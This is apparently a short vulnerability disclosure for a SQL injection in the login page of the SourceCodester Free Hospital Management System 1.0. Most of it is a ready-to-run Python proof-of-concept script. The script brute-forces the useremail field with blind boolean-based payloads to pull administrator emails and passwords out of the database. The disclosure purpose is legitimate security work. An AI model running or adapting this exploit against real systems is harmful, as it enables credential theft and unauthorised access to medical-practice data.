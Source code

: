 # SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/login.php
## Software
- Software: Free Hospital Management System for Small Practices 1.0
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/login.php. Affected is file `/vm/login.php`,The manipulation of the argument `useremail` or `userpassword` leads to SQL inject.Attackers can leverage blind boolean-based SQL injection to extract data from the database.

## Vulnerability Code
- /vm/login.php
![Vuln_code](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/3cd74cda-ecfb-4dad-819d-37792c3d0118)


## POC

```python
import requests
import string

url = "http://localhost/vm/login.php"
res = ""
dict = string.digits + string.ascii_lowercase + string.punctuation

for i in range(1,50):
    for j in dict:
        # payload = "doctor@doctor.com' and substr(database(),%s,1)='%s'-- " % (i, j)
        payload = "doctor@doctor.com' and substr((select concat(aemail,apassword) from admin),%s,1)='%s'-- " % (i, j)
        data = {"useremail": payload}
        response = requests.post(url, data=data)
        if "We cant found" not in response.text:
            res += j
            print("[*] Found: ",res)
            break
```
![Exploit](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/963a9536-8da7-41dc-80f2-f4a9842bdb35)
